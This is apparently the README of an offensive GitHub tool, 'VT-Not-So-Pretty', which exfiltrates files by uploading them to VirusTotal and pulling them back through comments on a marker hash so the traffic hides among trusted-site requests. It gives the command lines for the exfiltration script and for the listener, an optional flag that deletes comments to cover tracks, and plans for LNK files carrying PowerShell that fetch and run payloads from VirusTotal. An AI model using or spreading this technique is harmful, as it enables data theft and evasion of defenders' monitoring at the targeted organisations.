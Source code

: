 # VT-Not-So-Pretty

Python data exfiltration tool that uses VirusTotal as its infrastructure.

As defenders we are often overwhelmed by the sheer amount of network traffic in a network and overlook traffic made to well known trusted sites without any known suspicious functionalities (like file/software sharing sites). And what other site is more well known and trusted to defenders them virustotal.  

My main goal was to use virustotal upload and download functionalities to transfer files back and forth without the need to use our own infrastructure, and breaking the diamond model from the defenders perspective. 

## Usage Example
The tool is pretty simple just provide it a path, your VT API key, and a hash of a file (already uploded to VT) to which you want the hashes of the files exfiltrated to be written, to be able to download then later on.    

```
python .\Vt-Not-So-Pretty.py -f "PATH_TO_EXFIL" -k YOUR_API_KEY -c HASH_TO_COMMENT_ON
```
Alternatively you can enter this when prompted:

![Vy-Not-So-Pretty](https://github.com/user-attachments/assets/780fec17-50da-4aef-a91e-d3682be5c573)


After done uploading the files to VT all you have to do is just run listener as follow:

```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON"
```
Or you can also enter this when prompted:

![image](https://github.com/user-attachments/assets/9b8454a3-d486-4ef8-866d-a1b53a21c081)

## Optional cleanup
If you wish to delete the comments after file download (to cleanup as much as possible), all you have to do is provide the listener the api key used by the first tool as follow:
```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON -d "THE_API_KEY_USED_4_UPLOAD"
```

## Main Drawbacks:

1. The file size to transfer are limited to 650 MB per file - Could be solved with proper files splitting and compression.

2. Premium Subscription - In order to download files from VT premium subscription is needed, which could be pretty expensive.

## Disclaimer

This is an ongoing project, and in the future, I am planning to add more tools to it, for other uses as well, like for delivey using LNK files that contain a powershell code that download (or read in memory) file from VT and runs them on the target host.

## Upcoming updates:
Changing the endpoint to upload file larger then 35 MB.

